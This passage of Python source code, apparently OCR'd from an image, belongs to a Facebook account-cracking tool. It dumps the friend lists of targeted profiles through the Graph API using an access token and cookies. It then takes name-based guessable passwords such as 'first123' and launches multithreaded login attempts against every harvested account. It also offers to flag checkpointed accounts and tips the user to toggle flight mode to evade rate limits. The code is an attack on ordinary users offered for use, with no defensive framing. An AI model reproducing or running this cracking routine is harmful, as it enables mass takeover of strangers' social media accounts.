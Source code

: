         ses=requests.Session()
        yz = 0
        for met in range(jum):
                yz+=1
                kl = input(f'\033[1;37m Put link no.{yz+0}: ')
                usrr.append(kl)
        linex()
        print(' All method working try 1 by 1 ')
        linex()
        print(' [1] Method 1 (for new ids) \n [2] Method 2 (for old ids)\n [3] Method 3 (for old ids)')
        linex()
        mthd = input(' Choose method: ')
        linex()
        print(' Do you went show cp account? (y/n): ')
        linex()
        cx=input(' Choose: ')
        if cx in ['y','Y','yes','Yes','1']:
                pcp.append('y')
        else:
                pcp.append('n')
        linex()
        print('\033[1;32m Dumping friend list...\033[1;37m')
        linex()
        for userr in usrr:
                try:
                        col = ses.get('https://graph.facebook.com/v2.0/'+userr+'?fields=friends.limit(5000)&access_token='+tokenku[0], cookies = {'cookies':cok}).json()
                        for mi in col['friends']['data']:
                                try:
                                        iso = (mi['id']+'|'+mi['name'])
                                        if iso in id:pass
                                        else:id.append(iso)
                                except:continue
                except (KeyError,IOError):
                        pass
                except requests.exceptions.ConnectionError:
                        exit(f' No internet connection')
        try:
                plist = []
                try:
                        ps_limit = int(input(' How many passwords do you want to add ? '))
                except:
                        ps_limit =1
                linex()
                print('\033[1;32m exp: first last,firtslast,first123')
                linex()
                for i in range(ps_limit):
                        plist.append(input(f' Put password {i+1}: '))
                with tred(max_workers=30) as crack_submit:
                        clear()
                        total_ids = str(len(id))
                        print(' Total account : \033[1;32m'+total_ids+f' \033[1;33m>\033[1;36m> \033[1;37mMethod -> \033[1;37mM{mthd}')
                        print("\033[1;37m \x1b[38;5;208mUse flight mode for speed up\033[1;37m")
                        linex()
                        for user in id:
                                ids,names = user.split('|')
                                passlist = plist
                                if mthd in ['1','01']:
                                        crack_submit.submit(ffb,ids,names,passlist)
                                elif mthd in ['2','02']:
                                        crack_submit.submit(api,ids,names,passlist)
                                else:
                                        crack_submit.submit(api1,ids,names,passlist)